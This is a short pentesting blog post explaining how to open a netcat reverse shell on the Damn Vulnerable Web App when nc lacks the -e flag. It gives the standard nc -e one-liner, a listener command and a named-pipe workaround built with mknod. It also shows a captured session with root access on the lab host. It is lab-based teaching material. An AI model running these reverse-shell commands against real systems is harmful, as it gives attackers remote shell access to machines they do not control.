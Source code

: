 ```yaml
---
layout: post
title:  "Reverse Shell Without -e"
subtitle: "Notes, Tips, Tricks"
date:   2017-02-21 15:00:00 -0500
author: "coastal"
header-img: "images/notes-tips-tricks/nc-no-e-rev-shell.jpg"
---
```

I was looking into dropping a netcat reverse shell on the Damn Vulnerable Web App when I came across an issue, the ```-e``` flag was not supported on the server's implementation of netcat. This means that the go-to way of initiating a reverse shell from the victim server would not function:

```
nc 192.168.56.1 4444 -e /bin/sh
```

The ```-e``` flag denoting that the following command is executed on connection, it passes a shell to the receiving end of the connection (the attacker listening on the connecting address / port):

```
nc -nvlp 4444
```

I stumbled across a workaround by Ed Skoudis from SANS. I like it alot and, as it relies on a command that is (seemingly) not usually limited in terms of user-accession and does not require extra permissions, it should be a pretty broadly applicable workaround. 

The first step is to execute this command on the victim server:

```
mknod /tmp/backpipe p 
```

The description of the ```mknod``` man page is as follows:
>int mknod(const char *pathname, mode_t mode, dev_t dev); 

>The system call mknod() creates a filesystem node (file, device special file or named pipe) named pathname, with
>attributes specified by mode and dev.

So here we make a named temporary pipe with a (default) FIFO passthrough structure, designated by the flag ```p```, at the location ```/tmp/backpipe```. Next we execute this command on the victim:

```
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```

Alright, so the first part of the pipe redirects the stdout of ```/tmp/backpipe``` to the stdin of ```/bin/sh```. The stdout of that chain is piped to our connection on ```nc 192.168.56.1 4444```. To complete the circle, the stdout of the```nc```  connection is chained to ```/tmp/backpipe```. What a cool workaround!

From an attacker's perspective, it looks like this:

```
coastal@coastal-LinuxBook:~$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.56.101] port 4444 [tcp/*] accepted (family 2, sport 53212)
whoami
root
hostname
owaspbwa
```

### References
[1. SANS Netcat Without -e][sans-nc]

[sans-nc]:https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem